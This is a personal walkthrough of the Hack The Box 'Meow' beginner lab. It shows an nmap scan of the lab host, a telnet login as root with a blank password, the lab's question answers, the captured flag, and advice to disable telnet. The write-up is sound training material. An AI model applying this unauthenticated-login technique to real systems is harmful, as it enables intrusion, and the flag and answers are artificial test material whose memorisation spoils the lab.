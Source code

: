 ```yaml
---
id: starting_point_meow
aliases: []
tags:
  - telnet
  - protocols
  - reconnaisance
  - weak_credentials
  - misconfiguration
date: "2025-01-19"
---
```


# HTB_starting_point_meow

- Platform: Hack The Box
- Category: Privilege Escalation
- Difficulty: Very Easy
- Estimated Time: Under 10 minutes

---

## 💡 **Objective**

- What does the acronym VM stand for?
  `Virtual Machine`
- What tool do we use to interact with the operating system in order to issue commands via the command line, such as the one to start our VPN connection? It's also known as a console or shell.
  `Terminal`
- What service do we use to form our VPN connection into HTB labs?
  `openvpn`
- What tool do we use to test our connection to the target with an ICMP echo request?
  `ping`
- What is the name of the most common tool for finding open ports on a target?
  `nmap`
- What service do we identify on port 23/tcp during our scans?
  `telnet`
- What username is able to log into the target over telnet with a blank password?
  `root`
- Submit root flag
  ```bash
  root@Meow:~# ls
  flag.txt  snap
  root@Meow:~# cat flag.txt
  b40abdfe23665f766f9c61ecba8a4c19
  ```

---

## 🛠️ **Preparation**

- **Tools Used:** [Nmap]
- **Environment:** [Kali Linux]
- **Commands to Remember:**
  ```bash
  nmap nmap -T4 -F -sS -oN starting_point_meow2.txt 10.129.14.116
  ```

---

## 🔍 **Enumeration**

- **Initial Reconnaissance:**
  - Target IP/URL: `10.129.14.116`
  - Open Ports/Services:
    ```plaintext
    23/tcp open  telnet
    ```
  - Vulnerabilities Identified:
    - [CVE-1999-0619]
    - [CVE-2011-4862]
- **Detailed Findings:**
  - Login without authentication credentials

---

## 🧩 **Exploitation**

- **Steps Taken:**

  1. Scanning IP with nmap

  ```bash
  -$ nmap -T4 -F -sS -oN starting_point_meow2.txt 10.129.14.116
  Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-20 03:28 EST
  Failed to resolve "nmap".
  Nmap scan report for 10.129.14.116
  Host is up (0.27s latency).
  Not shown: 99 closed tcp ports (reset)
  PORT   STATE SERVICE
  23/tcp open  telnet

  Nmap done: 1 IP address (1 host up) scanned in 1.52 seconds

  ```

  2. Identifying open ports: Telnet
  3. Connect with telnet, using default credentials. Username: root

  ```bash
  -$ telnet 10.129.14.116 23
  Trying 10.129.14.116...
  Connected to 10.129.14.116.
  Escape character is '^]'.

    █  █         ▐▌     ▄█▄ █          ▄▄▄▄
    █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
    █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█


  Meow login: root
  Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)

   * Documentation:  https://help.ubuntu.com
   * Management:     https://landscape.canonical.com
   * Support:        https://ubuntu.com/advantage

    System information as of Mon 20 Jan 2025 09:18:56 AM UTC

    System load:           0.08
    Usage of /:            41.7% of 7.75GB
    Memory usage:          4%
    Swap usage:            0%
    Processes:             135
    Users logged in:       0
    IPv4 address for eth0: 10.129.14.116
    IPv6 address for eth0: dead:beef::250:56ff:feb0:4d34

   * Super-optimized for small spaces - read how we shrank the memory
     footprint of MicroK8s to make it the smallest full K8s around.

     https://ubuntu.com/blog/microk8s-memory-optimisation

  75 updates can be applied immediately.
  31 of these updates are standard security updates.
  To see these additional updates run: apt list --upgradable


  The list of available updates is more than a week old.
  To check for new updates run: sudo apt update

  Last login: Mon Sep  6 15:15:23 UTC 2021 from 10.10.14.18 on pts/0
  root@Meow:~#
  ```

- **Challenges Faced:**
  - Guessing the username

---

## 🚀 **Post-Exploitation**

- **Access Gained:**
  - User: [root]
  - Privileges: [unlimited]
- **Privilege Escalation Steps:**
  - No Escalation, Already Higher Privileges

---

## 📝 **Key Learnings**

- **What I Learned:**
  - Connecting to the target with telnet, using default credentials.
  - Scanning IP using new options in nmap
    ```bash
    -$ nmap -T4 -F -sS -oN starting_point_meow2.txt 10.129.14.116
    ```
- **Mistakes to Avoid:**
  - Using the wrong port
  - Using the wrong username

---

## 🔧 **How To Fix Vulnerabilities**

- **Vulnearbilties Encountered:**
  - Vuln: Telnet service is activated using default credentials
  - Fix: Close the port 23, unactive the Telnet service
- ## **Helpful Resources:**
  - [Telnet](https://www.exabytes.co.id/blog/apa-itu-telnet-adalah/)

---

## 🎯 **Post-Lab Reflection**

- **How Could I Improve?**
  - Improve the nmap scan
    ```bash
    -$ nmap -T4 -F -sS -oN starting_point_meow2.txt 10.129.14.116
    ```
- **Next Steps:**
  - Learn how to activate or deactivate telnet services

